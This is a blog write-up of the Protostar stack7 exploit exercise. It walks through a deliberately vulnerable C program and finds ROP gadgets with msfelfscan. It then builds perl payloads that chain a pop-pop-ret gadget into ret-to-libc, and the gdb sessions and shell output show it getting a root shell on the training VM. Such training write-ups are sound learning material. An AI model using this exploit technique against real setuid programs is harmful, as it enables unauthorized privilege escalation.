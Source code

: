```yaml
---
layout: post
title:  "Protostar Stack7 challenge"
date:   2018-05-04 10:05:36 +0530
categories: exploit-exercises protostar stack7
---
```

[Stack7][stack7-link] is the last challenge in the [Protostar][protostar-link] series of challenges.
The source code for this challenge is below
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
    char buffer[64];
    unsigned int ret;
    printf("input path please: "); fflush(stdout);
    gets(buffer);
    ret = __builtin_return_address(0);
    if((ret & 0xb0000000) == 0xb0000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }
    printf("got path %s\n", buffer);
    return strdup(buffer);
}
int main(int argc, char **argv)
{
    getpath();
}
{% endhighligh t%}
We see there is a check for return address `ret` starting with `0xb`. If we remember from our attempt at solving [stack6][stack6-proto-link] the return address check has further been broadened from addresses starting with `0xbf` to `0xb`. This would mean that we cannot use `Return to libc` technique to solve this challenge. Since the libc `system` and `exit` calls had addresses starting with `0xb` we cannot use them in this challenge. This challenge description mentions using `return to .text`. A quick google search pointed to this being a sort of `return oriented programming` technique. Now it had been some time since I had studied about `ROP` so this [coursera-rop-video][courser-rop-video-link] was a nice refresher on basics of the technique.
I used `metasploit` to find the location of `gadgets` to be used for `ROP`. I copied the executable of stack7 to ubuntu machine where `metasploit` was installed for finding the address of gadgets.
{% highlight shell%}
VirtualBox:~$ msfelfscan --help
Usage: /opt/metasploit-framework/bin/../embedded/bin/msfelfscan [mode] <options> [targets]
Modes:
    -j, --jump [regA,regB,regC]      Search for jump equivalent instructions
    -p, --poppopret                  Search for pop+pop+ret combinations
    -r, --regex [regex]              Search for regex match
    -a, --analyze-address [address]  Display the code at the specified address
    -b, --analyze-offset [offset]    Display the code at the specified offset
Options:
    -A, --after [bytes]              Number of bytes to show after match (-a/-b)
    -B, --before [bytes]             Number of bytes to show before match (-a/-b)
    -D, --disasm                     Disassemble the bytes at this address
    -I, --image-base [address]       Specify an alternate ImageBase
    -h, --help                       Show this message
{% endhighlight%}
Since `poppopret` type gadgets were used in video tutorial link i tried to search executable for them.
{%highlight shell%}
VirtualBox:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
{%endhighlight%}
So we have three poppopret gadgets available to us. Let us use first one at `0x08048492`. So our return address will be `0x08048492` this time. Since this gadget has two `pop` instructions, the next two values in payload will be popped to respective registers and next value will be our next return address.
So payload should look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][next RET addr]`. Lets check if we're correct in `protostar` VM image.
{%highlight shell%}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 . "D"x4 . "E"x100 ' > payload
user@protostar:~$ gdb /opt/protostar/bin/stack7
(gdb) r < payload
Starting program: /opt/protostar/bin/stack7 < payload
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCCDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info r
eax            0x804a008    134520840
ecx            0x0  0
edx            0x1  1
ebx            0x42424242   1111638594
esp            0xbffff7dc   0xbffff7dc
ebp            0x43434343   0x43434343
esi            0x0  0
edi            0x0  0
eip            0x44444444   0x44444444
eflags         0x210202 [ IF RF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/10s $esp
0xbffff7dc:  'E' <repeats 100 times>
0xbffff841:  ""
0xbffff842:  ""
0xbffff843:  ""
0xbffff844:  "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:  ""
0xbffff853:  ""
0xbffff854:  "\020\204\004\b"
0xbffff859:  ""
0xbffff85a:  ""
{%endhighlight%}
`info r` shows that `$ebx` register has been overwritten with B, `$ebp` has been with C and `$eip` the instruction pointer has been overwritten with DDDD ie `0x44444444`.
Since this value was used as return address we get a `SIGSEGV`.
Also `x/10s $esp` shows us that `$esp` now points to EEEE.... 
Now since we have passed the check for `RET` address we can user `ret-to-libc` technique further complete the exploit.
So we have space after second RET too. So if we want to implement this exploit using shellcode we can either put our shellcode where we have placed AAA or we can place it after second RET. Also we can try placing our shellcode in an enviromment variable and returning to it.
Repeating steps for [Stack6][stack6-my] we create an environemtn variable and get its address when running `stack7` and also get address of `system` and `exit` calls for `ret-to-libc`
{%highlight shell%}
user@protostar:~$ export EGG="/bin/sh"
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack7
EGG will be at 0xbffffa02
user@protostar:~$ gdb /opt/protostar/bin/stack7 
(gdb) b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 
Breakpoint 1, main (argc=1, argv=0xbffff784) at stack7/stack7.c:28
28  stack7/stack7.c: No such file or directory.
    in stack7/stack7.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
%endhighlight%}
So now our payload shall look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][system][exit][/bin/sh]`
Using perl to create payload combining `ROP` and `ret-to-libc` we are able to successfully spwan a shell
{%highlight shell%}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 ."\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > payload
user@protostar:~$ (cat payload; cat) | /opt/protostar/bin/stack7
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCC�����`�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{%endhighlight%}
[stack7-link]:https://exploit-exercises.com/protostar/stack7/
[protostar-link]:https://exploit-exercises.com/protostar/
[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[courser-rop-video-link]:https://www.youtube.com/watch?v=XZa0Yu6i_ew
